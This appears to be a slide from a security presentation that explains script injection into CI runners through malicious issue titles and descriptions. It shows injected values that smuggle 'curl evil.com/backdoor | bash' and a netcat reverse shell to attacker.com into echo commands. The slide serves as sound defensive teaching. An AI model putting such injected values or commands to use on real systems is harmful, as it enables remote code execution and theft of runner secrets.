 </style>

# 🔥 Script injection attack

<div class="problem-container">

<div class="attack-box">
<h3>💀 Malicious title</h3>

```bash
Hello"; curl evil.com/backdoor | bash; echo "
```

</div>

<div class="danger-box">
<h3>� What Happens</h3>

```bash
echo "Issue: Hello"; curl evil.com/backdoor | bash; echo ""
```
Commands executed on your runner!
</div>

<div class="attack-box">
<h3>💀 Malicious description</h3>

```bash
Test"; nc attacker.com 4444 -e /bin/bash; echo "
```

</div>

<div class="danger-box">
<h3>� What Happens</h3>

```bash
echo "Description: Test"; nc attacker.com 4444 -e /bin/bash; echo ""
```

Opens reverse shell to attacker!

</div>

</div>


---





# Script injection


![bg left](assets/img/injecton-attack.png)

### 🔐 Secret theft
